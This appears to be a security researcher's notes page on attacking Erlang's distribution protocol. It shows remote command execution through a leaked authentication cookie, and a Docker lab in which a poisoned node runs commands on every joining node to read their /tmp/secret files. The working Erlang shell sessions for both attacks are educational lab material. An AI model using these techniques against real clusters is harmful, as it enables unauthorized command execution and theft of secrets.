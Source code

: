 # Erlang

## Authentication Cookies

Authentication between Erlang nodes is rather unique to anything I've seen elsewhere, and it all happens through the magic of cookies. The [documentation ](http://erlang.org/doc/reference_manual/distributed.html)sums this up well:

> Authentication determines which nodes are allowed to communicate with each other. In a network of different Erlang nodes, it is built into the system at the lowest possible level. Each node has its own magic cookie, which is an Erlang atom.

> When a node tries to connect to another node, the magic cookies are compared. If they do not match, the connected node rejects the connection.

If the authentication cookie is leaked then theoretically we can abuse the nature of Erlang's inter-connectivity to achieve command execution on a node we shouldn't necessarily be able to. Due to the distributed nature of Erlang also, this represents a fundamental risk.

Of course this only assumes you can leak the cookie. There are a number of methods, such as in the event of a lower privileged user seeing the -setcookie flag in a process list, a weak cookie or a simple brute-force. The topic of brute-forcing is discussed by Daniel Mende in [Erlang distribution RCE and a cookie bruteforcer](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/), as well as by Michael Santos in [Spoofing the Erlang Distribution Protocol](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html).

If we have access to the cookie and can connect to a node's epmd port \(usually tcp/4369\), we can spawn our own node and achieve command execution in the following manner:

```erlang
otheruser@pc:/$ erl -sname booj -setcookie cookieval -remsh node@localhost
<me booj -setcookie cookieval -remsh node@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(node@localhost).
net_adm:ping(node@localhost).
pong
(booj@booj)2> spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

## Node Poisoning

Connecting to an Erlang cluster can potentially be dangerous. We've mentioned the dangers of arbitrary command execution on adjacent nodes, but this also extends to your workstation upon connecting to a cluster. In Alex Weber's Erlang's remsh is dangerous, we are given a method to compromise an active workstation connecting to a cluster.

If, for example, we were to take control of a single node within a cluster, not only do we have arbitrary command execution over it, but we would also be able to infect any new nodes which join the cluster automatically.

I've tested this out using three docker containers:

#### bar@bar

```erlang
root@ubuntu:/home/booj# docker run --rm -it --name bar -h bar --net example erlang:19.3 /bin/bash
root@bar:/# echo thisisbar > /tmp/secret
root@bar:/# erl -sname bar -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4 (abort with ^G)
(bar@bar)1> net_adm:ping(foo@foo).
pong
(bar@bar)2> spawn(fun Grab_keys() ->
(bar@bar)2> net_kernel:monitor_nodes(true),
(bar@bar)2> receive
(bar@bar)2> {nodeup, Node} ->
(bar@bar)2> Keys = rpc:call(Node, os, cmd, ["cat /tmp/secret"]),
(bar@bar)2> file:write_file(string:concat("/tmp/", Node), Keys)
(bar@bar)2> end,
(bar@bar)2> Grab_keys()
(bar@bar)2> end).
<0.71.0>
```

So we've set up our first node and attached our malicious monitor.

#### foo@foo

```erlang
root@ubuntu:/home/booj# docker run --rm -it --name foo -h foo --net example erlang:19.3 /bin/bash
root@foo:/# echo thisisfoo > /tmp/secret
root@foo:/# erl -sname foo -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4 (abort with ^G)
(foo@foo)1> net_adm:ping(bar@bar).
pong
```

Now we've connected to our adjacent node and if we attach a terminal to our `bar` docker container, we'll see our dumped secret within tmp.

```bash
root@bar:/tmp# ls -la
total 20
drwxrwxrwt 1 root root 4096 Apr 16 20:18 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root 10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root 10 Apr 16 20:15 secret
root@bar:/tmp# cat foo@foo
thisisfoo
```

Now, any nodes that connect, due to the way Erlang works, will have their secret instantly dumped:

#### baz@baz

```erlang
root@ubuntu:/home/booj# docker run --rm -it --name baz -h baz --net example erlang:19.3 /bin/bash
root@baz:/# erl -sname baz -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4 (abort with ^G)
(baz@baz)1> net_adm:ping(foo@foo).
pong
```

```bash
root@bar:/tmp# ls -la
total 24
drwxrwxrwt 1 root root 4096 Apr 16 20:23 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root 10 Apr 16 20:23 baz@baz
-rw-r--r-- 1 root root 10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root 10 Apr 16 20:15 secret
```

Whilst this may not be a particularly surprising result for Erlang developers, it does represent a quite frightening realization that a single node being compromised will indeed compromise the entire network. This is more making other security researchers aware that if they're attacking an Erlang node, to absolutely do it from a secure VM that has no potential to leak their personal data. A Docker contianer is ideal.

